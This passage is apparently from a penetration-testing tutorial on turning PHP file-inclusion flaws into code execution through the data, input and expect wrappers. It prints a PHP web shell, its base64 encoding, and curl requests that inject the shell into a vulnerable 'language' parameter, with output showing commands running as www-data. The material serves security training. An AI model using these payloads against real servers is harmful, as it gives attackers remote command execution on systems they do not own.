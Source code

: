 With `allow_url_include` enabled, we can proceed with our `data` wrapper attack. As mentioned earlier, the `data` wrapper can be used to include external data, including PHP code. We can also pass it `base64` encoded strings with `text/plain;base64`, and it has the ability to decode them and execute the PHP code.

So, our first step would be to base64 encode a basic PHP web shell, as follows:

PHP Wrappers

```shell-session
echo '<?php system($_GET["cmd"]); ?>' | base64

PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==
```

`data` wrapper exmaple
```
http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id

$ curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
## Input

Similar to the `data` wrapper, the [input](https://www.php.net/manual/en/wrappers.php.php) wrapper can be used to include external input and execute PHP code. The difference between it and the `data` wrapper is that we pass our input to the `input` wrapper as a POST request's data. So, the vulnerable parameter must accept POST requests for this attack to work. Finally, the `input` wrapper also depends on the `allow_url_include` setting, as mentioned earlier.

To repeat our earlier attack but with the `input` wrapper, we can send a POST request to the vulnerable URL and add our web shell as POST data. To execute a command, we would pass it as a GET parameter, as we did in our previous attack:

PHP Wrappers

```shell-session
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
            uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

**Note:** To pass our command as a GET request, we need the vulnerable function to also accept GET request (i.e. use `$_REQUEST`). If it only accepts POST requests, then we can put our command directly in our PHP code, instead of a dynamic web shell (e.g. `<\?php system('id')?>`)

---
## Expect

Finally, we may utilize the [expect](https://www.php.net/manual/en/wrappers.expect.php) wrapper, which allows us to directly run commands through URL streams. Expect works very similarly to the web shells we've used earlier, but don't need to provide a web shell, as it is designed to execute commands.
